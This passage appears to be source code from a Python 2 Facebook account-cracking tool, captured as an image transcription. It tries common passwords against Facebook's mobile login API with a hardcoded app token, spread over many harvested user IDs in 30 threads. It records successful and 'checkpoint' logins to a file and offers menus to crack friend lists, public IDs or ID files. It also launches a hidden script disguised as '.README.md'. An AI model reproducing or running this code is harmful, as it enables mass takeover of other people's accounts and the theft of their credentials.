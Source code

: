 												oks.append(user+pass5)
											else:
												if "www.facebook.com" in q["error_msg"]:
													print "[Checkpoint] " + user + " | " + pass5
													cps = open("checkpoint.txt", "a")
													cps.write(user+"|"+pass5+"\n")
													cps.close()
													cpb.append(user+pass5)
												else:
													pass6 = "445566"
													data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if "access_token" in q:
														print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass6
														oks.append(user+pass6)
													else:
														if "www.facebook.com" in q["error_msg"]:
															print "[Checkpoint] " + user + " | " + pass6
															cps = open("checkpoint.txt", "a")
															cps.write(user+"|"+pass6+"\n")
															cps.close()
															cpb.append(user+pass6)
														
																	
		except:
			pass
			
	p = ThreadPool(30)
	p.map(main, id)
	print (40*"-")
	print ("[✓] Process Has Been Completed ....")
	print ("[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb)))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	print (40*"-")
	raw_input("\n[Back]")
	if xxx == "0":
		crack_menu()
	else:
		os.system("python2 .README.md")

###### CRACK MANUAL PASS ######

def choice_menu():
	global toket
	os.system("clear")
	try:
		toket=open("....","r").read()
	except IOError:
		print("[!] Token invalid")
		os.system("rm -rf ....")
		time.sleep(1)
		os.system("python2 PAHRUL.py")
	os.system("clear")
	print (logo)
	print (40*"-")
	print ("[1] Crack From Friend List")
	print ("[2] Crack From Any Public ID")
	print ("[3] Crack From File")
	print ("[0] Back")
	print (40*"-")
	choice_action()
